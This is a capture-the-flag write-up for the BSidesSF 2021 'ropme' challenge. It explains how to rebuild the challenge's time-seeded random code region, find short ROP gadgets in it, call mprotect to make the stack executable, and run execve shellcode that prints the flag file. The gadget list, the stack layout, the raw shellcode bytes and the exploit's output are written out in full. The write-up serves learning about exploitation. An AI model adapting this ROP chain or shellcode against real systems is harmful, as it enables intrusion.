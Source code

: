 ## ropme (BSIDESSF2021)

I didn't really participate in the ctf, but I found this challenge to be
interesting and since not many teams solved it/posted writeups I decided to
post my solution. It's probably not the most elegant - if you solved it in a
different way I'd love to hear about it.

In this writeup, I'm assuming you have a basic understanding of x86 architecture, return oriented programming, and the Linux API.

## Exploitable Service

We're given a service binary and its source code.

```bash
[joey@gibson]$ file ropme
ropme: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b82649cdb66e4b3f92ea5fd28e374b5793cb9f26, not stripped
```

The target binary is a 32-bit ELF. This will be useful when we are writing our
exploit. Let's take a look at the important parts of the source code.

```C
// Generate a random block of +rwx memory that'll be filled randomly
uint32_t *random_code = mmap((void*)CODE_START, CODE_LENGTH, 
                                PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

// Allocate memory for the user to send us a stack - it's just +rw
uint8_t  *stack = mmap((void*)STACK_START, STACK_LENGTH, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

...

alarm(TIME);

// Set the randomness in stone at the outset
time_t t = time(NULL);

// Immediately let the user know how much time they have
printf("The current time is: %ld\n", t);
printf("You have %d seconds to make this work\n", TIME);

// Populate the random code block using a predictable RNG
int i;
srand(t);
for(i = 0; i < CODE_LENGTH / 4; i++) {
    random_code[i] = rand();
}

```
The service allocates two memory regions:

* `random_code` with read, write, and exec permissions at address
      `CODE_START` (`0x13370000`)
      
* `stack` with just read and write permissions and an address chosen by the
      system (`STACK_LENGTH` is `NULL`)

The program uses `time(2)` to generate the seed for pseudo-random number
generation and conveniently tells the client what that seed is. It proceeds to
fill `random_code` memory region with (you guessed it!) pseudo-random 32-bit
numbers.

Finally the service reads `STACK_LENGTH` bytes of user input into the `stack`
region, uses `asm(3)` to clear all of the registers, set the stack pointer
(`esp`) to the `stack` memory region and immediately `ret`'s.

What's going on here? Essentially, a contrived example of a stack overflow
vulnerability, exploitable via Return Oriented Programming (ROP). Instead of
writing a vulnerable program, the author of this challenge cut to the chase
and generated an artificial stack for our exploit. The first thing that happens
after we populate that stack is the `ret` operation, so we already control the
instruction pointer (`eip`) with the first four bytes of our input.

## Dumpster diving for gadgets

We control `eip` but the only place we can reliably jump to is the `random_code`
memory region, filled with junk. Lots of interesting things can be found in the
junk!

Turns out if you generate `0x500000` of pseudo-random bytes, *some* of those
bytes will happen to be ROP gadgets. Remember that we are handed over the seed
for pseudo-random number generation, which means we can recreate `random_code`
locally (even if we weren't given the seed - one second is a *long* time - we
could call `time(2)` locally and get the same result).

The plan for the exploitation is straightforward - generate the same random
memory that the service did and find the necessary gadgets for our ROP chain.
There's only one problem - our ROP gadgets can't be too long. The longer
the instruction the less chances we have of finding it in the randomly
initialized memory.

What happens if not all gadgets are present? We just try again! I wrapped my
exploit with a shell script that kept trying until the exploit was successful.
Through trial and error I found that we can find any two-byte gadget (including
`ret`) with every attempt. A three-byte gadget already calls for some
bruteforcing, so we must keep those to a minimum (my rop chain ended up having
two three-byte gadgets - I bet there's a better solution out there).

## Exploit methodology

The goal of this challenge is to read the contents of `/home/ctf/flag.txt`. As
is often the case with restricted exploitation environment, instead of attacking
this problem head-on, we will modify the environment to make exploitation
easier for us. We have full control over the stack, but it is set as
non-executable. Our ROP chain will have to change the `stack` memory region
permissions to executable. Then we simply jump into the stack and execute the
second stage shellocde, which will read the flag for us.

To change permissions of a memory region, we utilize the `mprotect(2)` system
call. If you've read the man page you know that `mprotect` might expect a
page-aligned address and length. Since we
don't know the stack address, the first thing our ROP chain needs to do is grab
the stack address from the stack pointer. As this is our first operation, `esp`
will be pointing at `stack+4`, so we decrement `ebx` four times. Now we pop the
rest of the arguments and the syscall number to the respective registers and run
`int 0x80` (remember we're dealing with a 32-bit system).

Here is the list of gadgets we're looking for:

```asm
; gadget 0 
; used to grab the stack address
89 e3   mov ebx, esp
c3      ret

; gadget 1
; used to page align the stack address 
4b      dec ebx
c3      ret

; gadget 2
; used for syscall parameter loading
58      pop eax
c3      ret

; gadget 3
; used for syscall parameter loading
59      pop ecx
c3      ret

; gadget 4
; used for syscall parameter loading
5a      pop edx
c3      ret

; gadget 5
; everyone's favorite interrupt
cd 80   int 0x80
c3      ret

; gadget 6
; jump to our second stage shellcode
ff e4   jmp esp
```
The stack layout will look like this:
```C
        *((uint32_t *)(exploit+0)) = mov_ebx;   // address of mov ebx, esp gadget
        *((uint32_t *)(exploit+4)) = dec_ebx;   // address of dec ebx gadget
        *((uint32_t *)(exploit+8)) = dec_ebx;
        *((uint32_t *)(exploit+12)) = dec_ebx;
        *((uint32_t *)(exploit+16)) = dec_ebx;
        *((uint32_t *)(exploit+20)) = pop_eax;  // address of pop eax gadget
        *((uint32_t *)(exploit+24)) = 125; // __NR_mprotect
        *((uint32_t *)(exploit+28)) = pop_ecx;  // address of pop ecx gadget
        *((uint32_t *)(exploit+32)) = 4096; // page-aligned stack size
        *((uint32_t *)(exploit+36)) = pop_edx;  // address of pop edx gadget
        *((uint32_t *)(exploit+40)) = (PROT_EXEC|PROT_WRITE|PROT_READ);
        *((uint32_t *)(exploit+44)) = int_80;   // address of int 0x80 gadget
        *((uint32_t *)(exploit+48)) = jmp_esp;  // address of jmp esp gadget
```
Upon returning from `mprotect` we should be able to jump to `esp`. There's a
caveat. The calling convention uses the stack for arguments, but we're already
using the stack for our code. We need a new stack! Seems obvious, but I took
that for granted and spent an hour wondering why my exploit was coring.
Fortunately, we can just use `random_code` segment as our new stack. The first
order of business in our second stage shellcode will be to move an address in
`random_code` into `esp`. Besides that it's just a vanilla `execve` shellcode
that's going to cat the flag.

```C
    0xbc, 0x00, 0x00, 0x38, 0x13,       // mov    esp,0x133800000 ; new stack
    0x6a, 0x0b,                         // push   0xb
    0x58,                               // pop    eax
    0x31, 0xd2,                         // xor    edx,edx
    0x52,                               // push   edx
    0x68, 0x2f, 0x63, 0x61, 0x74,       // push   0x7461632f
    0x68, 0x2f, 0x62, 0x69, 0x6e,       // push   0x6e69622f
    0x89, 0xe3,                         // mov    ebx,esp
    0x68, 0x78, 0x74, 0x00, 0x00,       // push   0x7478
    0x68, 0x61, 0x67, 0x2e, 0x74,       // push   0x742e6761
    0x68, 0x66, 0x2f, 0x66, 0x6c,       // push   0x6c662f66
    0x68, 0x65, 0x2f, 0x63, 0x74,       // push   0x74632f65
    0x68, 0x2f, 0x68, 0x6f, 0x6d,       // push   0x6d6f682f
    0x89, 0xe1,                         // mov    ecx,esp
    0x52,                               // push   edx
    0x51,                               // push   ecx
    0x53,                               // push   ebx
    0x89, 0xe1,                         // mov    ecx,esp
    0xcd, 0x80,                         // int    0x80
    0x6a, 0x01,                         // push   0x01
    0x58,                               // pop    eax
    0x31, 0xdb,                         // xor    ebx, ebx
    0xcd, 0x80,                         // int    0x80
```

Let's see the exploit in action:

```shell
[joey@gibson]$ ./exploit
=== Generating random memory with seed 1615121940
...
=!!= Found EBX mov gadget @ 0x135e533c
=!!= Found INT 0x80 gadget @ 0x1385c0c8
=-= All gadgets are present! Sending the exploit..
CTF{bounce_bounce_bounce}
```


